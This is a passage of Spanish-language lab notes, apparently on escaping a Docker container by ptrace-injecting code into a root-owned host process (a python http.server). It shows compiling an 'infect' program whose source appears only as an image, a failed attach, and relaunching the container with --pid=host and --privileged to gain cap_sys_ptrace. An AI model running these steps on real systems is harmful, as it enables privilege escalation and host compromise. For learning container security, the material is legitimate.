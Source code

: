**Ahora lo compilamos**
```bash
gcc infect.c -o infect
```

**A la hora de ejecutar le tenemos que pasar el `PID` que lo sacamos con `ps -faux`
```bash
       PID
root  12170  0.0  1.0  29208 20224 pts/0    S+   20:34   0:00  |                           \_ python3 -m http.server 8081
```

**Se ejecuta**:
```bash
./infect 12170
```

**Salida**
```bash
./infect 12194
+ Tracing process 12194
ptrace(ATTACH):: Operation not permitted
```
**Como vemos no tenemos permisos para hacer un `ATTACH` sincronizarme a este `PID` para ejecutar un tarea sobre este proceso y esto es porque ha este contenedor le falta una capabilities**

**Listamos las capabilities**:
```bash
capsh --print | grep "sys_ptrace"
```
**Salida**
```bash
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
```
**Tiene una `! ` adelante, esto quiere decir que estas capabilities no está activa. La podemos activar, salimos del contenedor**:
```bash
exit
docker rm $(docker ps -a -q) --force
docker run --rm -dit --pid=host --privileged --name ubuntuServer ubuntu
docker exec -it ubuntuServer bash
```

**Volvemos a instalar**
```bash
apt update
apt install libcap2-bin gcc netcat-traditional nano net-tools
```

**Verificamos si ahora tenemos activada la capabilitie**
```bash
capsh --print | grep "sys_ptrace"
```
**Salida**
```bash
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
```
*Ahora no tiene !* vamos a poder sincronizar el `PID` para inyectar un comando como privilegiado* verificamos que el servicio siga corriendo y que `PID` sea el mismo con `ps -faux`
**Tenemos que volver a crear el archivo `nano infect.c` en la ruta `/tmp` y compilarlo con `gcc infect.c -o infect` y lo ejecutamos `./infect PID`**
